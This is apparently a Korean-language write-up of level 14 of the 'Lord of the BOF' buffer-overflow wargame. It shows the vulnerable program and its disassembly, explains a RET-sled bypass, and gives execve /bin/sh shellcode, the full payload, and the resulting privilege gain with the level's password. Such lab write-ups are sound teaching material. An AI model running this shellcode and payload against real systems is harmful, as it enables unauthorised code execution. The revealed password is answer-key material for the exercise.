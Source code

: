 # Level 14, Giant -> Assassin

### assassin.c

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - assassin
        - no stack, no RTL
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
        char buffer[40];

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        if(argv[1][47] == '\xbf')
        {
                printf("stack retbayed you!\n");
                exit(0);
        }

        if(argv[1][47] == '\x40')
        {
                printf("library retbayed you, too!!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer+sfp hunter
        memset(buffer, 0, 44);
}
```

### Analysis

#### Disassembling the "assassin"

```
Dump of assembler code for function main:
0x8048470 <main>:       push   %ebp
0x8048471 <main+1>:     mov    %ebp,%esp
0x8048473 <main+3>:     sub    %esp,40
0x8048476 <main+6>:     cmp    DWORD PTR [%ebp+8],1
0x804847a <main+10>:    jg     0x8048493 <main+35>
0x804847c <main+12>:    push   0x8048570
0x8048481 <main+17>:    call   0x8048378 <printf>
0x8048486 <main+22>:    add    %esp,4
0x8048489 <main+25>:    push   0
0x804848b <main+27>:    call   0x8048388 <exit>
0x8048490 <main+32>:    add    %esp,4
0x8048493 <main+35>:    mov    %eax,DWORD PTR [%ebp+12]
0x8048496 <main+38>:    add    %eax,4
0x8048499 <main+41>:    mov    %edx,DWORD PTR [%eax]
0x804849b <main+43>:    add    %edx,47
0x804849e <main+46>:    cmp    BYTE PTR [%edx],0xbf
0x80484a1 <main+49>:    jne    0x80484c0 <main+80>
0x80484a3 <main+51>:    push   0x804857c
0x80484a8 <main+56>:    call   0x8048378 <printf>
0x80484ad <main+61>:    add    %esp,4
0x80484b0 <main+64>:    push   0
0x80484b2 <main+66>:    call   0x8048388 <exit>
0x80484b7 <main+71>:    add    %esp,4
0x80484ba <main+74>:    lea    %esi,[%esi]
0x80484c0 <main+80>:    mov    %eax,DWORD PTR [%ebp+12]
0x80484c3 <main+83>:    add    %eax,4
0x80484c6 <main+86>:    mov    %edx,DWORD PTR [%eax]
0x80484c8 <main+88>:    add    %edx,47
0x80484cb <main+91>:    cmp    BYTE PTR [%edx],0x40
0x80484ce <main+94>:    jne    0x80484e7 <main+119>
0x80484d0 <main+96>:    push   0x8048591
0x80484d5 <main+101>:   call   0x8048378 <printf>
0x80484da <main+106>:   add    %esp,4
0x80484dd <main+109>:   push   0
0x80484df <main+111>:   call   0x8048388 <exit>
0x80484e4 <main+116>:   add    %esp,4
0x80484e7 <main+119>:   mov    %eax,DWORD PTR [%ebp+12]
0x80484ea <main+122>:   add    %eax,4
0x80484ed <main+125>:   mov    %edx,DWORD PTR [%eax]
0x80484ef <main+127>:   push   %edx
0x80484f0 <main+128>:   lea    %eax,[%ebp-40]
0x80484f3 <main+131>:   push   %eax
0x80484f4 <main+132>:   call   0x80483a8 <strcpy>
0x80484f9 <main+137>:   add    %esp,8
0x80484fc <main+140>:   lea    %eax,[%ebp-40]
0x80484ff <main+143>:   push   %eax
0x8048500 <main+144>:   push   0x80485ae
0x8048505 <main+149>:   call   0x8048378 <printf>
0x804850a <main+154>:   add    %esp,8
0x804850d <main+157>:   push   44
0x804850f <main+159>:   push   0
0x8048511 <main+161>:   lea    %eax,[%ebp-40]
0x8048514 <main+164>:   push   %eax
0x8048515 <main+165>:   call   0x8048398 <memset>
0x804851a <main+170>:   add    %esp,12
0x804851d <main+173>:   leave
0x804851e <main+174>:   ret
```

#### Estimated Stack Structure

```sh
|  char buffer[40]      | [%ebp-40]
|  SFP                  | [%ebp]
|  RET                  | [%ebp+4]
|  ARGC                 | [%ebp+8]
|  Pointer to ARGV[0]   | [%ebp+C]
```

### Exploit

#### How to pwn

RET Sled

스택 프레임의 Return Address에 어딘가에 있을 `RET` 명령어 주소를 넣는다.
`RET` 명령어는 `pop eip`와 `jmp eip`을 수행하므로, Return Address에 `RET` 명령어 주소를 넣게 되면 한번더 `RET`이 실행되게 되고, 그 아래에 있는 주소 값으로 가게 된다.

```sh
|  char buffer[40]      | [%ebp-40]
|  SFP                  | [%ebp]    
|  RET                  | [%ebp+4]  <- ESP
|  ARGC                 | [%ebp+8]
|  Pointer to ARGV[0]   | [%ebp+C]
```

스택 프레임을 나가는 `RET` 명령어 바로 앞에 Breakpoint를 건 상태에 `ESP`는 `[%ebp+4]`를 가르키고 있다. 이때 `RET`가 수행되면서 `ESP`는 한칸 내려가게 되고, 실행 흐름은 RET에 있는 주소로 넘어가게 된다.

```sh
|  char buffer[40]      | [%ebp-40]
|  SFP                  | [%ebp]    
|  RET                  | [%ebp+4]  
|  ARGC                 | [%ebp+8]  <- ESP
|  Pointer to ARGV[0]   | [%ebp+C]
```

그러나 만약 리턴 주소가 어딘가에 있을 `RET` 명령어 주소라면, 한번 더 `RET`를 수행하면서 `pop eip`와 `pop eip`로 실행흐름이 `[%ebp+8]`에 있는 주소로 넘어가게 된다. 이를 이용해 지금 정상적인 Return Address 위치인 [%ebp+4]가 스택 주소를 갖지 못하게 막고 있으므로, Return Address 아래에 쉘코드 주소를 넣고 Return Address에 `RET` 명령어 주소를 넣으면 된다!

```c
        if(argv[1][47] == '\xbf')
        {
                printf("stack retbayed you!\n");
                exit(0);
        }
```

#### Shellcode (24 bytes)

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

#### Final Payload

```
./assassin `python -c "print 'A'*44+'\x1e\x85\x04\x08'+'\xdc\xfa\xff\xbf'+'\x90'*200+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'"`
```

### Result

```
[giant@localhost giant]$ ./assassin `python -c "print 'A'*44+'\x1e\x85\x04\x08'+'\xdc\xfa\xff\xbf'+'\x90'*200+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'"`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒ᙰ
                           ̀
bash$ id
uid=514(giant) gid=514(giant) euid=515(assassin) egid=515(assassin) groups=514(giant)
bash$ my-pass
euid = 515
pushing me away
```